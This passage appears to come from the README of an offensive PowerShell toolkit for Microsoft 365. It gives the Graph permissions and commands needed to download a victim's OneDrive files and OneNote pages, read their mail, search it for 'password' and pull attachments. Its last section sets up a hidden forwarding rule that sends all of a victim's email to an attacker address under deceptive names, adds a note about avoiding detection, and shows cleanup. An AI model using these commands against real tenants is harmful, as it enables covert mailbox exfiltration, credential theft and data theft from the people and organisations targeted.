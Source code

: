 #### OneDrive

###### Permission: Files.Read.All, Files.ReadWrite.All, Sites.Read.All, Sites.ReadWrite.All, Sites.Manage.All, Sites.FullControl.All

List details of and download item from a OneDrive of a user

```powershell
Get-AAAOneDriveFolder -UserId "hagrid29@XXX.onmicrosoft.com"
Get-AAAOneDriveFolder -UserId "hagrid29@XXX.onmicrosoft.com" -FolderId "XXXX"
Get-AAAOneDriveFolder -UserId "hagrid29@XXX.onmicrosoft.com" -FileId "XXXX" -Download
```

#### OneNote

###### Permission: Notes.Read.All, Notes.ReadWrite.All

List details of and download One Note items of a user

```powershell
Get-AAAOneNotes -UserId "hagrid29@XXX.onmicrosoft.com"
Get-AAAOneNotesContent -UserId "hagrid29@XXX.onmicrosoft.com" -PageId "XXXX" -OutHTMLFile output.html
```

#### Email

###### Permission: Mail.Read, Mail.ReadWrite

Read emails and download attachments from a mailbox

```powershell
Get-AAAEmails -UserId "hagrid29@XXX.onmicrosoft.com"
Get-AAAEmails -UserId "hagrid29@XXX.onmicrosoft.com" -Search "password" -Top 7
Get-AAAEmails -UserId "hagrid29@XXX.onmicrosoft.com" -MessageId "XXXX"
Get-AAAEmailAttachments -UserId "hagrid29@XXX.onmicrosoft.com" -MessageId "XXXX"
Get-AAAEmailAttachments -UserId "hagrid29@XXX.onmicrosoft.com" -MessageId "XXXX" -AttachmentId "XXXX"
```

#### Create Mail Rule

###### Permission: MailboxSettings.ReadWrite

Create a highest order mail rule to forward all email of a mailbox. Be cautious of detection and alert of mail rule creation for forwarding email to external mailbox.

```powershell
$victim = "hagrid29@XXX.onmicrosoft.com"
$attackerMail = "XXX@XXX.com" 
Get-AAAEmailRules -UserId $victim
New-AAAEmailRules -UserId $victim -MailRuleDisplayName "Reporting Rule" -EmailDisplayName "Tommy Cheung (IT)" -Email $attackerMail
# Clean up
Remove-AAAEmailRules -UserId $victim -MailRuleId "XXXX"
```
